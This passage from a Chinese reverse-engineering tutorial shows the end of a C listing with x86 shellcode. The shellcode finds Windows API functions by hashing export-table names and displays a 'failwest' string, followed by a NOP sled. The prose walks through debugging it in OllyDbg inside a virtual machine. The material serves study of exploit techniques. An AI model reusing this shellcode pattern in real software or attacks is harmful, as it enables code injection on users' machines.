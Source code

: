 ``` 
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90"
	);
	return 0;
}
``` 

VS的配置按照第一篇的配置就行了，然后生成后咱们在虚拟机里面运行，断下附加OD

![](Image/2.png)

可以看到，push操作是把字符串的指针压栈，在数据区跟随一下可以看出来，我们单步走，遇到下面那个call跟进去
